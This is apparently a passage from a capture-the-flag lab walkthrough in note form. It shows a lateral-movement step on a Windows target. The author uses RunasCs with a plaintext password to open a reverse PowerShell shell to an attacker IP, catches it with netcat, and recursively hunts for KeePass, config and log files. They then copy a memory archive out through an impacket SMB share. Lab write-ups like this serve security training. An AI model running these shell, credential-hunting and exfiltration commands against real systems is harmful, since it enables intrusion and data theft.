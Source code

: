 Will get a shell as user mikasaAckerman
I have transferred RunasCs.exe to target machine and execute it
```
./run.exe mikasaAckerman IL0v3ErenY3ager powershell -r 10.10.14.6:443
```
![[Pasted image 20240621214032.png]]

Got it
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240621214209.png]]

Got more files
```
Get-ChildItem -Path C:\Users -Include *.txt, *.log, *.kdbx, *.conf, *.ini -File -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20240621214647.png]]

There is a zip file
![[Pasted image 20240621215059.png]]

Will transfer this to out kali using smb share
```
impacket-smbserver test . -smb2support  -username root -password R0ot
```
![[Pasted image 20240621215203.png]]

Connect it 
```
net use m: \\10.10.14.6\test /user:root R0ot
```
![[Pasted image 20240621215242.png]]

Now will transfer
```
copy MEMORY.7z m:\
```
![[Pasted image 20240621215307.png]]

Will check in our kali
![[Pasted image 20240621215335.png]]
Got it.
BTW, it will take time to transfer because its is large file.

Transferred mail.txt as well 
![[Pasted image 20240621215436.png]]

Now Will get **user.txt**
![[Pasted image 20240621215541.png]]
